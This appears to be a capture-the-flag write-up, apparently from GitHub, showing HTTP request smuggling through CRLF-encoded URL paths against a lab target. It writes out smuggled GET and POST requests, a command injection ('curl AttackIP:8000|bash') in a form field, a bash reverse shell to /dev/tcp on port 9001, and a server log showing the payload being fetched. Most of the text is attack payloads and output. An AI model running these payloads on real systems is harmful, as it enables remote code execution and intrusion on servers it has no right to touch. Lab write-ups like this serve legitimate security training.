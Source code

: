 
<h2>GET /page/index.php%20HTTP/1.1%0d%0aFoo:%29baarr</h2>

<img width="780" height="454" alt="image" src="https://github.com/user-attachments/assets/483cffc7-b5f7-4199-8310-fcce45755855" />

<br>
<br>

```bash
%20HTTP/1.1%0d%0aFoo:%20baarr
```

<img width="1084" height="346" alt="image" src="https://github.com/user-attachments/assets/11192f17-e4bb-4e62-a95c-f0c24b9dca6f" />

<br>
<br>
<h2>GET /page/index.php%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aGET%20/SMUGGLED</h2>

<img width="785" height="366" alt="image" src="https://github.com/user-attachments/assets/863cff01-38ae-4169-b229-29a52c39bba7" />

<br>

<img width="1219" height="326" alt="image" src="https://github.com/user-attachments/assets/f83db34f-bafe-47e7-83d0-b3db51f23d91" />

<br>
<br>
<h2>GET /page/localhost:8080/gen.php</h2>

<br>

<h2>GET /page/hello</h2>

<img width="1215" height="350" alt="image" src="https://github.com/user-attachments/assets/635709b5-0625-449d-9fe3-b367db0eb8ae" />

<br>
<br>
<h2>GET /page/hello%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aGET%20/SMUGGLED</h2>

<img width="1225" height="137" alt="image" src="https://github.com/user-attachments/assets/711d7505-ebdd-4721-923c-ff361988703a" />

<br>
<br>
<h2>rev.sh</h2>

```bash
bash -c 'bash -i >& /dev/tcp/xx.xxx.xx.xxx/9001 0>&1'
```

<h2>GET /page/hello%20HTTP/1.1%0D%0AHost:%20localhost%0D%0A%0D%0APOST%20/gen.php%20HTTP/1.1%0D%0AHost:%20localhost%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0AContent-Length:%2037%0D%0A%0D%0Alength=;curl%20AttackIP:8000%7Cbash;%0D%0A%0D%0AGET%20/hello HTTP/1.1</h2>

<img width="1208" height="336" alt="image" src="https://github.com/user-attachments/assets/a3dd6825-269d-4309-939a-ce79ef7a9a9f" />

 ```bash
:~/Contrabando# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
xx.xxx.xx.xxx - - [25/Aug/2025 xx:xx:xx] "GET / HTTP/1.0" 200 -
xx.xxx.xx.xxx - - [25/Aug/2025 xx:xx:xx] "GET / HTTP/1.1" 200 -
```
